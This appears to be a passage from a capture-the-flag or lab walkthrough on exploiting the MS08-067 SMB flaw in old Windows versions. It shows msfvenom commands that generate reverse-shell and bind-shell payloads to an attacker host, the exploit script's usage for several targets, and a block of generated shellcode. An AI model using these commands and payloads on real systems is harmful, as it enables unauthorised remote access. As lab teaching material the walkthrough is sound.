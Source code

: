 Here are our instructions:
```
# ------------------------------------------------------------------------
# REPLACE THIS SHELLCODE with shellcode generated for your use
# Note that length checking logic follows this section, so there's no need to count bytes or bother with NOPS.
#
# Example msfvenom commands to generate shellcode:
# msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
# msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

And then:
```
Usage

Usage: ms08_067_2018.py <os #> <Port #>

    ms08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
    ms08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
    ms08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
    ms08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
    ms08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
    ms08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
    ms08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
```
From our SMB scans, you'll recall:
```
|IDs:  CVE:CVE-2008-4250
|The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2
```

So our msfvenom command should look something like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.12 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

I created a backup of the original py file:
```
cp ms08_067_2018.py custom.py
```

Ran the msfvenom command from above, which gives me several lines that look like this:
```
"\x2b\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x38\xfe\xc9\x30\x83\xee\xfc\xe2\xf4\xc4\x16\x4b\x30"
"\x38\xfe\xa9\xb9\xdd\xcf\x09\x54\xb3\xae\xf9\xbb\x6a\xf2"
"\x42\x62\x2c\x75\xbb\x18\x37\x49\x83\x16\x09\x01\x65\x0c"
"\x59\x82\xcb\x1c\x18\x3f\x06\x3d\x39\x39\x2b\xc2\x6a\xa9"
"\x42\x62\x28\x75\x83\x0c\xb3\xb2\xd8\x48\xdb\xb6\xc8\xe1"
"\x69\x75\x90\x10\x39\x2d\x42\x79\x20\x1d\xf3\x79\xb3\xca"
"\x42\x31\xee\xcf\x36\x9c\xf9\x31\xc4\x31\xff\xc6\x29\x45"
"\xce\xfd\xb4\xc8\x03\x83\xed\x45\xdc\xa6\x42\x68\x1c\xff"
"\x1a\x56\xb3\xf2\x82\xbb\x60\xe2\xc8\xe3\xb3\xfa\x42\x31"
"\xe8\x77\x8d\x14\x1c\xa5\x92\x51\x61\xa4\x98\xcf\xd8\xa1"
"\x96\x6a\xb3\xec\x22\xbd\x65\x96\xfa\x02\x38\xfe\xa1\x47"
"\x4b\xcc\x96\x64\x50\xb2\xbe\x16\x3f\x01\x1c\x88\xa8\xff"
"\xc9\x30\x11\x3a\x9d\x60\x50\xd7\x49\x5b\x38\x01\x1c\x60"
"\x68\xae\x99\x70\x68\xbe\x99\x58\xd2\xf1\x16\xd0\xc7\x2b"
"\x5e\x5a\x3d\x96\xc3\x3a\x36\xf2\xa1\x32\x38\xff\x72\xb9"
"\xde\x94\xd9\x66\x6f\x96\x50\x95\x4c\x9f\x36\xe5\xbd\x3e"
"\xbd\x3c\xc7\xb0\xc1\x45\xd4\x96\x39\x85\x9a\xa8\x36\xe5"
```
